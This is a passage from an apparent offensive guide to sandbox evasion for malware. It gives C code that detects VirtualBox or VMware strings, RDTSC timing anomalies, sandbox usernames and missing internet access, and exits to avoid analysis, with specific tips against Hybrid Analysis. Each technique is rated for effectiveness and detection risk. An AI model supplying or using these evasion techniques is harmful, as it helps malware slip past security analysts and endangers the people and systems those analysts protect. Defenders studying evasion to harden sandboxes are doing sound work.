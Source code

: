 ```c

    if(strstr(identifier, "VBOX") || strstr(identifier, "VMWARE")) {
        ExitProcess(0); // VM detected
    }
}
```
**Effectiveness:** Medium (sandboxes increasingly hide artifacts)
**Detection Risk:** Low

**C. Timing-Based VM Detection**
```c
// RDTSC timing check (VMs have higher variance)
unsigned long long start, end;
start = __rdtsc();
Sleep(100);
end = __rdtsc();

// In VM, timing is inconsistent due to hypervisor overhead
if((end - start) > 1000000000) { // Abnormal timing
    ExitProcess(0);
}
```
**Effectiveness:** Medium (some VMs defeat this)
**Detection Risk:** Very Low

---

#### Category 3: Hybrid Analysis Specific Detection
**Hybrid Analysis Artifacts (as of 2024):**

**A. Username Detection**
**Historical Note:** Older Hybrid Analysis versions used fixed usernames (e.g., "KR3T"). Current versions randomize, but patterns may exist.

```c
char username[256];
DWORD size = sizeof(username);
GetUserNameA(username, &size);

// Check for common sandbox usernames (update list periodically)
if(strcmp(username, "sandbox") == 0 ||
   strcmp(username, "malware") == 0 ||
   strcmp(username, "analysis") == 0) {
    ExitProcess(0);
}
```
**Effectiveness:** Low-Medium (requires current sandbox username knowledge)
**Detection Risk:** Very Low

**B. Network Connectivity Check**
```c
// Hybrid Analysis may use specific DNS/network configuration
// Check for internet connectivity to real sites
HINTERNET hInternet = InternetOpen("Mozilla/5.0", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
HINTERNET hConnect = InternetOpenUrl(hInternet, "https://www.google.com", NULL, 0, INTERNET_FLAG_RELOAD, 0);

if(!hConnect) {
    ExitProcess(0); // No internet or sandbox network
}
```
**Effectiveness:** Medium
**Detection Risk:** Low
